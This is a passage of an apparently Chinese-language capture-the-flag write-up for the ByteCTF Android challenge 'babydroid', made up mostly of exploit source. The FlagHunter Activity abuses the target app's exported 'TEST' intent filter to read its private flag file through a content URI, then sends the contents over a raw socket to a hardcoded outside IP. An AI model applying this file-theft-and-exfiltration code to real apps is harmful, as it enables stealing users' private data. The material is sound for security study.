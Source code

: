 ```plain
        intent.setAction("com.bytectf.TEST"); 
        startActivity(intent);
    }
}
```

重：setAction设置为TEST,是因为我们在目标app上的vulnerable的过滤器就是TEST，不设置的话是无法得到相应的处理的  
FlagHunter.class:

```plain
package com.bytectf.pwnbabydroid;
import android.app.Activity;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import android.widget.TextView;
import android.widget.Toast;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.net.Socket;
import java.net.SocketAddress;
public class FlagHunter extends Activity {
    @Override
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            String file = "/root/data/data/com.bytectf.babydroid/files/flag";
            InputStream is = getContentResolver().openInputStream(Uri.parse(getIntent().getDataString() + file));
            BufferedReader br = new BufferedReader(new InputStreamReader(is));
            StringBuilder sb = new StringBuilder();
            String line;
            while ((line = br.readLine()) != null) {
                sb.append(line);
            }
            is.close();
            br.close();
            String flag = sb.toString();
            Log.e("FlagHunter", flag);
            new Thread(new Runnable() {
                @Override
                public void run() {
                    try {
                        if (true) {
                            Socket sk = new Socket();
                            SocketAddress address = new InetSocketAddress("106.14.254.135", 6666);
                            sk.connect(address, 5000);
                            sk.setTcpNoDelay(true);
                            sk.setKeepAlive(true);
                            OutputStream os = sk.getOutputStream();
                            os.write(flag.getBytes());
                            os.flush();
                            os.close();
                            sk.close();
                            Thread.sleep(1000);
                        }
                    } catch (Exception e) {
                        Log.e("FlagHunter_Err",e.toString());
                    }
                }
            }).start();
```